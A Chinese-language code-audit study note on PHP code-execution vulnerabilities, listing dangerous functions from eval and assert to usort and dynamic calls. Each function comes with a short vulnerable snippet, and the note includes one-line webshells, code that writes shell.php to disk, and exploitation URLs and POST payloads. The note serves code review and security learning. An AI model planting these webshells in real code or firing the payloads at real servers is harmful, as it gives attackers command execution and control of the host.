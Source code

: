 ```yaml
---
title: "[代码审计]PHP篇:代码执行漏洞"
desc: TonyD0g
date: 2022-01-28 21:31:02
tags: 代码审计
toc: true
---
```

<font size=4 >

<!-- more -->

## 1.漏洞案例:
漏洞形成原因：客户端提交的参数，未经任何过滤，传入可以执行代码的函数，造成代码执行漏洞.

常见函数:
**eval、preg_replace+/e、assert、call_user_func、call_user_func_array、create_function**等函数

漏洞危害：执行代码，写入webshell、控制服务器

简单举例:
```
<?php
//?cmd=phpinfo();
@eval($_GET['cmd']);
?>
```

## 2.常见代码执行函数:
比如:
**eval()、assert()、preg_replace()、create_function(),array_map()、call_user_func()、call_user_func_array()，array_filter，usort，uasort()，文件操作函数、动态函数(a(b))**

**eval()**:

示例代码:
```
<?php eval($_POST[cmd])?>
```

**assert()**:

示例代码:
```
<?php
//?cmd=phpinfo()
assert($_REQUEST[cmd]);
?>
```

**preg_replace()**:

preg_replace(pattern,replacement,subject);
搜索subject中匹配pattern的部分，以replacement进行替换.
preg_replace()函数原本是执行一个正则表达式的搜索和替换，但因为存在危险的/e修饰符，使 preg_replace()将 replacement 参数当作 PHP 代码

示例代码:
```
<?php
@preg_replace("/abc/e",$_REQUEST['cmd'],"abcd");
?>
```

**create_function()**:
create_function主要用来创建匿名函数，如果没有严格对参数传递进行过滤，攻击者可以构造特殊字符串传递给create_function()执行任意命令.
详见:https://paper.seebug.org/94/#_2

示例代码:
```
<?php
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>
```

**array_map()**:        [这个没用过,找时间学习下]
array_map() 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。 回调函数接受的参数数目应该和传递给 array_map() 函数的数组数目一致.

示例代码:
```
<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>
```

**call_user_func()    /   call_user_func_array()**:
call_user_func — 把第一个参数作为回调函数调用,其余参数是回调函数的参数.
call_user_func_array — 调用回调函数，并把一个数组参数作为回调函数的参数.

示例代码:
```
<?php
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>
<?php
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>
```

**array_filter()**:         [这个没用过,找时间学习下]
依次将 array 数组中的每个值传递到 callback 函数。如果 callback 函数返回 true，则 array 数组的当前值会被包含在返回的结果数组中。数组的键名保留不变

参考链接:https://www.cnblogs.com/zhouguowei/p/5035393.html
示例代码:
```
<?php
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>
```

**usort()、uasort()**:      [这两个没用过,找时间学习下]

usort() 通过用户自定义的比较函数对数组进行排序。
uasort() 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联.

示例代码:
```
php环境>=5.6才能用
<?php usort(...$_GET);?>
利用方式：
test.php?1[]=1-1&1[]=eval($_POST['x'])&2=assert
[POST]:x=phpinfo();
php环境>=<5.6才能用
<?php usort($_GET,'asse'.'rt');?>
利用方式：
test.php?1=1+1&2=eval($_POST[x])
[POST]:x=phpinfo();
```

**文件操作函数**:

file_put_contents() 函数把一个字符串写入文件中。
fputs() 函数写入文件

示例代码:
```
<?php
$test='<?php eval($_POST[cmd]);?>';
file_put_contents('test1.php',$test);
?>
<?php
fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');
?>
```

**动态函数**:

PHP函数直接由字符串拼接
示例代码:
```
<?php
//?a=assert&b=phpinfo()
$_GET['a']($_GET['b']);
?>
```

## 学习来源:
```
公众号Bypass 《PHP代码审计入门笔记》
```
</font>